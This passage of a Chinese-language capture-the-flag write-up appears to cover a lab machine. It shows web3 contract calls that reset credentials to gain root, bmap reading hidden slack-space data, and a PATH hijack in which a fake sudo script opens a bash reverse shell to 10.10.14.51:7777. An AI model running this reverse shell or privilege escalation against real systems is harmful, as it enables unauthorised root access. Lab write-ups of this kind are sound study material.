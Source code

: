 ```
contract.functions.setPassword(passw).transact()
Password = contract.functions.getPassword().call()


contract.functions.transfer(1000).transact()
balance = contract.functions.getBalance().call()


contract.functions.getApprove().call()
contract.functions.getSupply().call()
contract.functions.getBalance().call()
```

这里我重新测试了 20 多遍了吧... 无限修改代码...

这是最终的成功的...

修改用户名 -- 修改密码 -- 修改 APP 为 Ture-- 修改 Balan 和 supply 值（颠倒即可）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7CGpAj4gJ0Wa0NNwTFWVKF2eGAgsm0AvC5ryiaZibJiayXCdtKicpwLRQCg/640?wx_fmt=png)

成功修改成功，用创建的用户名密码成功登录程序，并获得了 root 权限...

这里有点奇怪，为什么程序直接运行获得了 root 权限？我又开始了一番研究思考.... 先放着... 后面继续补充

先解决 root_flag 无法读取问题....

经过 google 强大的搜索，发现 Linux 上的 bmap 命令可用于将数据隐藏在内存块的空闲空间中，空闲空间是一块内存中的空白空间，没有被数据完全填充，由于无法正常访问，因此该空间可用于隐藏数据.... 可利用 bmap 进行读取

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7ldVQroVMTmuIDggmRlLmwU7HHJibD28x1iaqNIem4BicibBkH5Yk3ItSvQ/640?wx_fmt=png)

```
bmap --mode slack root.txt
```

成功读取到了隐藏信息...

获得了 root_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/ZrqZaezpWclmao6Vp2LSrkuD0NTO9TiclXmiaWSh0NibqeKL1xJ4qBoJbPODkzJ3g0OvTdUGll3Otz9978tOYib32Q/640?wx_fmt=png)

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7wic1112QsL0a3cyHAFmnJSZKDrTtHXa2hswCGmZa15E8RiaokXz9ndpg/640?wx_fmt=png)

可看到调用 sudo 时没有完整路径，但具有 root 权限....

这意味着在创建我们自己的 sudo 文件并修复路径时，将使用 root 特权（即 root shell）来调用它....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7licu9x422ibicTsy7e5k598iaqbiaPDxJJBQwERrwicAwj5NL3y0tv90XWGQ/640?wx_fmt=png)

命令：

```

#!/bin/bash

bash -i &> /dev/tcp/10.10.14.51/7777 0>&1

chmod +x dayu

export PATH=./:$PATH

```
